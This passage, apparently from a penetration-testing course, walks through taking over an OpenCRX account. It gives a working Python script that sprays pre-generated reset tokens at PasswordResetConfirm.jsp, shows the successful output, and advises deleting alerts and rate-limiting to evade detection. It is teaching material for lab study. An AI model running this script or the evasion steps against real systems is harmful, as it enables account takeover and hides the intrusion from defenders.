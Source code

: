 173      <br />
174      <%@ include file="password-reset-confirm-note.html" %>					
175  </form>
Listing 23 - Code excerpt from PasswordResetConfirm.jsp

Lines 163 - 175 are the form element we want to mimic in our reset script. In addition to the token, providerName, segmentName, and id, we need to provide a new password value in the password1 and password2 fields.

We now have everything we need to write a Python script to automate the password reset process. We will iterate through the list of tokens we previously generated with our OpenCRXToken Java class and POST each token to the server. Let's inspect the server responses to see if the reset worked and exit the for loop once we have a successful reset.

#!/usr/bin/python3

import requests
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-u','--user', help='Username to target', required=True)
parser.add_argument('-p','--password', help='Password value to set', required=True)
args = parser.parse_args()

target = "http://opencrx:8080/opencrx-core-CRX/PasswordResetConfirm.jsp"

print("Starting token spray. Standby.")
with open("tokens.txt", "r") as f:
    for word in f:
        # t=resetToken&p=CRX&s=Standard&id=guest&password1=password&password2=password
        payload = {'t':word.rstrip(), 'p':'CRX','s':'Standard','id':args.user,'password1':args.password,'password2':args.password}

        r = requests.post(url=target, data=payload)
        res = r.text

        if "Unable to reset password" not in res:
            print("Successful reset with token: %s" % word)
            break
Listing 24 - OpenCRXReset.py

Let's run the script. It may take a few minutes to return a result.

kali@kali:~/Documents/research$ ./OpenCRXReset.py -u guest -p password
Starting token spray. Standby.
Successful reset with token: yzs4pCxiRTym9Srs6OrzUY0b9HtEnDK8SrPtjBUe
Listing 25 - Running the reset script

We can verify the password reset was successful by attempting to log in to the site in our browser with the username "guest" and password "password".

Figure 9: Logged in as guest
Figure 9: Logged in as guest
We have now successfully reset the password for the guest account and have access to the application. A few alerts were created for the password resets we requested. Although not required for this exercise, deleting these alerts would help maintain stealth during a penetration test.

Sending up to 3000 requests to the web application is noisy. In a real world scenario, we would likely want to rate limit our script to hide our tracks in normal traffic and avoid overloading the server.



